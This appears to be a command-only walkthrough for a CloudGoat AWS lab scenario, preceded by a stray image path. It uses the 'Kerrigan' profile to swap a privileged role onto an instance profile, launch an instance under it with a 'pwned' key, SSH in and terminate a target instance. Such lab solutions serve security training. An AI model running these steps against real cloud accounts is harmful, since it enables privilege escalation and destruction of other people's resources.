 `aws configure --profile Kerrigan`

`aws ec2 describe-instances --profile Kerrigan`

`aws iam list-instance-profiles --profile Kerrigan`

`aws iam list-roles --profile Kerrigan`

`aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-meek-role-<cloudgoat_id> --profile Kerrigan`

`aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-mighty-role-<cloudgoat_id> --profile Kerrigan`

`aws ec2 create-key-pair --key-name pwned --profile Kerrigan --query 'KeyMaterial' --output text > pwned.pem`

`chmod 400 pwned.pem`

`aws ec2 describe-subnets --profile Kerrigan`

`aws ec2 describe-security-groups --profile Kerrigan`

`aws ec2 run-instances --image-id ami-0a313d6098716f372 --instance-type t2.micro --iam-instance-profile Arn=<instanceProfileArn> --key-name pwned --profile kerrigan --subnet-id <subnetId> --security-group-ids <securityGroupId> --region us-east-1`

`aws ec2 describe-instances --profile Kerrigan --region us-east-1`

`ssh -i pwned.pem ubuntu@<instancePublicIP>`

`sudo apt-get update`

`sudo apt-get install awscli`

`aws ec2 describe-instances --region us-east-1`

`aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1`
